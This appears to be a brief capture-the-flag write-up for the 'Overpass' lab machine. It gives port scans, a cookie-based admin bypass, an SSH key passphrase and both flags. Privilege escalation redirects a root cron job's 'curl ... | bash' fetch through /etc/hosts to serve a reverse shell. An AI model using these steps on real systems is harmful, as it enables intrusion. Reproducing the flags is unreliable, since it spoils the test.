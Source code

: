 # Overpass	
- IP: 10.10.51.99

## Open Ports/Services
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```

## Get private key on `/admin`
- `Cookies.set("SessionToken", "")`

## Get user acces
- Username: `james` + private key
  - private key pw: `james13`

## User flag
- `thm{65c1aaf000506e56996822c6281e6bf7}`

## Root flag
- Cron job, change target ip, serve rev shell
- `cat /etc/crontab`
  - `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`
- `cat /etc/hosts`
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.18.8.184 overpass.thm # changed to my ip to serve malicious script
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
- start up webserver to serve rev shell + listen on nc
- `thm{7f336f8c359dbac18d54fdd64ea753bb}`

SOLVED

